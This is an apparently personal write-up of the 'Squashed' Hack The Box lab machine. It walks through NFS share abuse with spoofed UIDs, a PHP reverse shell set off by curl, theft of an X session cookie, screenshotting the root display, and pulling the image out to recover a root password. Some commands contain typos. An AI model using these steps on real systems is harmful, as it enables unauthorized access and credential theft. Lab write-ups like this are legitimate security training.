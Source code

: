 ```yaml
---
title: Squashed Machine HTB
date: 2023-02-1 00:18:00 +0700
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```


# Enumeration 

```ruby
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|_ 256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_ 256 18cd9d08a621a8b8b8b6f79f8d405154fb (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Built Better
|_http-server-header: Apache/2.4.41 (Ubuntu)
111/tcp open rpcbind 2-4 (RPC #100000)
| rpcinfo: 
| program version port/proto service
| 100000 2,3,4 111/tcp rpcbind
| 100000 2,3,4 111/udp rpcbind
| 100000 3,3,4 111/tcp6 rpcbind
| 100000 3,4 111/udp6 rpcbind | 100003 3 2049/udp6 rpcbind
| 100003 3 2049/udp nfs
| 100003 3 2049/udp6 nfs
| 100003 3,4 2049/tcp nfs
| 100003 3,4 2049/tcp6 nfs | 100003 3,4 2049/tcp6 nfs
| 100005 1,2,3 36642/udp mountd
| 100005 1,2,3 38681/tcp6 mountd
| 100005 1,2,3 41607/tcp mountd
| 100005 1,2,3 47278/udp6 mountd
| 100021 1,3,4 35343/tcp nlockmgr
| 100021 1,3,4 37670/udp6 nlockmgr
| 100021 1,3,4 39313/tcp6 nlockmgr
| 100021 1,3,4 54678/udp nlockmgr
| 100227 3 2049/tcp nfs_acl
| 100227 3 2049/tcp6 nfs_acl
| | 100227 3 2049/udp nfs_acl
| |_ 100227 3 2049/udp6 nfs_acl
2049/tcp open nfs_acl 3 (RPC #100227)
```

## User exploit
There is not much we can do on the web page. It seems to be a bottomless pit, but we have port 111 open, so let's take a look at it:
```bash
showmount -e 10.129.217.14
```
and we see that it reports this:

```bash
/home/ross *
/var/www/html *
```

so let's mount both directories:

```bash
sudo mount -t nfs squashed.htb:/var/wwwww/html /tmp/html
sudo mount -t nfs squashed.htb:/var/www/html /tmp/ross
```

However, we cannot see the contents of the html folder, as a user with the UID 2017 is needed, so let's create one:

```bash
sudo useradd xela
sudo usermod -u 2017 xela
sudo groupmod -g 2017 xela
```

and with this we can see the /html folder. So we are going to upload an R.E to this folder, listening on X port and doing a curl to receive it:

```shell
curl http://squashed.htb/shell.php
```

## Root exploit 

if we look at the `/etc/exports` file we see the following:

```bash
/var/www/html *(rw, sync, root_squash)
/home/ross *(sync,root_squash)
```

So we can only read and write inside the html directory.

If we look inside the Ross directory, we can see that only users with the UID 1001 can interact, so let's create another user with that UID (inside our local machine)

```shell
sudo useradd ssor
sudo usermod -u 1001 ssor
sudo groupmod -g 1001 ssor
sudo su su ssor
```

Inside the /home/ross directory we can see the existence of the `Xauthority` and `xession` files, so we can do the escalation here.

So, let's take the session cookie out of /home/ross 

```shell
cat /home/ross/.Xauthority | base 64
this returns the cookie
```

And insert it on the victim machine:

```shell
echo "cookie" | base64 -d /tmp/.Xauthority
```

And change the current cookie of the victim machine to ross' cookie:

```shell
export XAUTHORITY=/tmp/.Xauthority
```

Once we have the ross session, we can use xwd to take screenshots of the root session:

```shell
xwd -root -screen -silent -display :0 > /tmp/screen.xwd
-root: select root window
-screen: send GetImage request to root window
-silent: operate silently
-display: specify server to connect to
```

once we have this screenshot, we are going to move it to our local machine from the `/tmp` folder using a python server

```shell
python3 -m http.server
```

We download it to our local machine and convert it to a png:

```shell
wget http://squashed.htb:8000/screen.xwd
convert screen.xwd screen.png
```

And this way we can see the root credentials:
```shell
root:cah$mei7rai9A
```


